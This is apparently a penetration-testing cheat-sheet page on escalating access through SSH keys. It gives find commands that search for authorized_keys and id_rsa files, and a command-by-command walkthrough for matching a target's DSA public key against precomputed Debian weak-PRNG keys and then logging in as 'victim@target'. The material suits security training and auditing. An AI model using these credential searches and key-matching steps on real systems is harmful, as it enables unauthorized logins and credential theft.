 # Escalation via SSH Keys

#### Sensitive files

```text
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
...
```

#### 

#### SSH Key Predictable PRNG \(Authorized\_Keys\) Process

This module describes how to attempt to use an obtained authorized\_keys file on a host system.

Needed : SSH-DSS String from authorized\_keys file

**Steps**

1. Get the authorized\_keys file. An example of this file would look like so:

```text
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

1. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```text
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
```

1. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```text
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

1. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```text
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

1. IF SUCCESSFUL, this will return a file \(68b329da9893e34099c7d8ad5cb9c940-17934.pub\) public file. To use the private key file to connect, drop the '.pub' extension and do:

```text
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

